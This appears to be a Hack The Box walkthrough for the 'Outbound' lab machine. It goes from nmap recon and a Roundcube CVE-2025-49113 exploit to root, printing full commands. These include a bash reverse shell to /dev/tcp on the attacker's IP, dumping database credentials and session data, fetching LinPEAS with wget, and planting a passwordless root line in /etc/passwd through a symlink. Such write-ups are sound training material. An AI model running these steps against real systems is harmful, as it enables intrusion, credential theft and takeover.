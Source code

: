 ````mdx
---
title: "OutBound HacktheBox Walkthrough"
date: "Jul 28, 2025"
---

Once we got our VPN up with:

```bash
sudo openvpn outbound.ovpn
````

we poked at the box with:

```bash
nmap -sC -sV -oN scan.txt 10.10.11.77
```
![A screenshot of the Outbound walkthrough](./outbound.png)

and saw ports **22** (SSH) and **80** (HTTP) open.

In the browser, hitting `http://10.10.11.77` redirected us to `mail.outbound.htb`—so we dropped:

```text
10.10.11.77  mail.outbound.htb
```

into `/etc/hosts` and reloaded the page. There it was: Roundcube webmail.

On the login page, we spotted credentials right in the prompt:

```text
tyler / LhKL1o9Nm3X2
```

We plugged them in, saw the Roundcube version, and realized it matched **CVE‑2025‑49113**. Cloning the exploit repo and firing it off with our listener ready gave us a shell as **www-data**:

```bash
# On your attacking machine:
nc -nlvp 4444

# On the target:
git clone https://github.com/fearsoff-org/CVE-2025-49113.git
cd CVE-2025-49113
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'"
```

Once we had a shell as **www-data**, we hunted down the Roundcube config:

```bash
find /var/www/html/roundcube -type f -name config.inc.php
cat /var/www/html/roundcube/config/config.inc.php
```

Inside, we found the DB creds:

```text
DB User: roundcube
DB Pass: RCDBPass2025
DB Name: roundcube
```

We logged into MySQL:

```bash
mysql -u roundcube -pRCDBPass2025 roundcube
SHOW TABLES;
SELECT * FROM session;
```

The session table held base64 blobs. We extracted the one for `jacob` and decoded it in CyberChef:

* **Decode**: Base64 → Hex
* **Decrypt**: Triple DES (DES-EDE3-CBC)

  * Key: `rcmail-!24ByteDESkey*Str`
  * IV: First 8 bytes of hex blob

Out popped **jacob’s** password.

Switching users:

```bash
su jacob
```

And SSH:

```bash
ssh jacob@10.10.11.77
```

We grabbed the **user flag**:

```bash
cat /home/jacob/user.txt
```

Next, we transferred LinPEAS:

```bash
# On our VM:
python3 -m http.server 80

# On the box:
wget http://<your_ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Checking sudo privileges:

```bash
sudo -l
```

Revealed a vulnerable binary: `/usr/bin/below`. We crafted a fake passwd entry:

```bash
echo 'tolu::0:0::/root:/bin/bash' > fakepass
rm -f /var/log/below/error_jacob.log
ln -s /etc/passwd /var/log/below/error_jacob.log
sudo /usr/bin/below
cp fakepass /var/log/below/error_jacob.log
su tolu
```

Instant root. Finally, the **root flag**:

```bash
cat /root/root.txt
```

---

**TL;DR:**

1. VPN → nmap → HTTP & SSH
2. hosts entry → login as Tyler → CVE‑2025‑49113 RCE → shell as www-data
3. config.inc.php → DB creds → dump sessions → decrypt Jacob’s password
4. SSH Jacob → user flag
5. LinPEAS → sudo vulnerability in `/usr/bin/below` → log‑file race → fake root user → root shell → root flag.

```
```
